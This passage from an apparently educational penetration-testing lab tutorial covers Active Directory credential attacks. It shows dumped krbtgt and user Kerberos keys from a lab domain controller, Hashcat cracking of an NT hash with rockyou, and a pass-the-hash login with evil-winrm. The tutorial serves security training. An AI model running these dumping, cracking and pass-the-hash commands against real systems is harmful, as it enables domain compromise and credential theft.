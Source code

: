 ```shell-session
NTDSUTIL    10.129.201.57   445     DC01         krbtgt:aes256-cts-hmac-sha1-96:1eb8d5a94ae5ce2f2d179b9bfe6a78a321d4d0c6ecca8efcac4f4e8932cc78e9
NTDSUTIL    10.129.201.57   445     DC01         krbtgt:aes128-cts-hmac-sha1-96:1fe3f211d383564574609eda482b1fa9
NTDSUTIL    10.129.201.57   445     DC01         krbtgt:des-cbc-md5:9bd5017fdcea8fae
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jim:aes256-cts-hmac-sha1-96:4b0618f08b2ff49f07487cf9899f2f7519db9676353052a61c2e8b1dfde6b213
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jim:aes128-cts-hmac-sha1-96:d2377357d473a5309505bfa994158263
NTDSUTIL    10.129.201.57   445     DC01         inlanefrieght.local\jim:des-cbc-md5:79ab08755b32dfb6
NTDSUTIL    10.129.201.57   445     DC01         WIN-IAUBULPG5MZ:aes256-cts-hmac-sha1-96:881e693019c35017930f7727cad19c00dd5e0cfbc33fd6ae73f45c117caca46d
NTDSUTIL    10.129.201.57   445     DC01         WIN-IAUBULPG5MZ:aes128-cts-hmac-sha1-
NTDSUTIL    10.129.201.57   445     DC01         [+] Dumped 61 NTDS hashes to /home/bob/.nxc/logs/DC01_10.129.201.57_2025-04-25_084640.ntds of which 15 were added to the database
NTDSUTIL    10.129.201.57   445    DC01          [*] To extract only enabled accounts from the output file, run the following command: 
NTDSUTIL    10.129.201.57   445    DC01          [*] grep -iv disabled /home/bob/.nxc/logs/DC01_10.129.201.57_2025-04-25_084640.ntds | cut -d ':' -f1
```

## Cracking hashes and gaining credentials

We can proceed with creating a text file containing all the NT hashes, or we can individually copy and paste a specific hash into a terminal session and use Hashcat to attempt to crack the hash and a password in cleartext.

### **Cracking a single hash with Hashcat**

```shell-session
$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

64f12cddaa88057e06a81b54e73b949b:Password1
```

In many of the techniques we have covered so far, we have had success in cracking hashes we've obtained.

`What if we are unsuccessful in cracking a hash?`

## Pass the Hash (PtH) considerations

We can still use hashes to attempt to authenticate with a system using a type of attack called `Pass-the-Hash` (`PtH`). A PtH attack takes advantage of the [NTLM authentication protocol](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm) to authenticate a user using a password hash. Instead of `username`:`clear-text password` as the format for login, we can instead use `username`:`password hash`. Here is an example of how this would work:

### **Pass the Hash (PtH) with Evil-WinRM Example**

```shell-session
$ evil-winrm -i 10.129.201.57 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b
```

We can attempt to use this attack when needing to move laterally across a network after the initial compromise of a target. More on PtH will be covered in the module `AD Enumeration and Attacks`.
